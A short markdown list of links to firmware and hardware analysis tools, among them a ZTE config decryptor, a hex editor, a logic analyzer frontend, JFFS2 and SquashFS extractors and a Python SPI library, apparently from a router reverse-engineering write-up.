- [zcu (zte-config-utility)](https://github.com/mkst/zte-config-utility) - ZTE config database decryption
- [pycryptodome](https://github.com/Legrandin/pycryptodome) - AES decryption in Python
- [ImHex](https://github.com/WerWolv/ImHex) - hex editor with data analysis and entropy visualization
- [PulseView (sigrok)](https://sigrok.org/wiki/PulseView) - logic analyzer frontend
- [jefferson](https://github.com/sviehb/jefferson) - JFFS2 filesystem extraction
- [unsquashfs (squashfs-tools)](https://github.com/plougher/squashfs-tools) - SquashFS extraction
- [sasquatch](https://github.com/devttys0/sasquatch) - SquashFS extraction with non-standard vendor support
- [spidev](https://github.com/doceme/py-spidev) - Python SPI interface for Raspberry Pi
